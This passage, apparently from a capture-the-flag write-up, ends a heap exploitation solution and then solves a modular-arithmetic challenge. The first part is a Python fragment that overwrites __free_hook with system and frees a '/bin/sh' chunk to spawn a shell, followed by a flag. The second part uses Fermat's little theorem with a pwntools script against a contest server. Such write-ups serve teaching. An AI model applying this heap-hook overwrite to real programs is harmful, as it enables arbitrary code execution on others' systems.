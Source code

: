 ```python=
free(0)

add(1, 1, '1', 0x68, p64(__free_hook), 1) # 0
add(1, 1, '1', 0x68, '/bin/sh\x00', 1) # 2
add(1, 1, '1', 0x68, p64(__free_hook), 1) # 3

add(1, 1, '1', 0x68, p64(system), 1) # 4

free(2)

r.interactive()

```
flag : `ASIS{2655b2e6fa6861246c9423c75d76c0e3}`

## PPC

### SPM

FWEASD

This is a simple PPC question. It ask us to find a integer $x$ , $\ s.t\ \ \  x^x\equiv a\pmod p$ where $p$ is a prime number.
Solution:
assume $x = n \times p + a$ by Fermat's little theorem
$x^x \equiv (n \times p+a)^{(n \times p+a)}\equiv  a\pmod p$
now $let\ n+a=m \times (p-1)+1$, so we can pick $m=1\Rightarrow n=p-a\Rightarrow x=p^2-a \times p+a$

Exploit script : 
```python
from common import start

host = '37.139.4.247'
port = 60049

r = remote(host, port)

# this is to pass the PoW chal
start(r)

cnt = 0
while 1:
    try:
        cnt += 1
        print ('[{}]\tsolving...'.format(cnt))
        r.recvuntil('| send a solutoin of super hard equation x ** x = a (mod p), for given a and p')
        r.recvuntil('p = ')
        p = int(r.recvuntil('\n'))
        r.recvuntil('| a = ')
        a = int(r.recvuntil('\n'))

        # solve
        m = 1
        n = p - a
        x = int(n * p + a)
        r.sendline(str(x))
    except:
        r.interactive()
        exit()
```
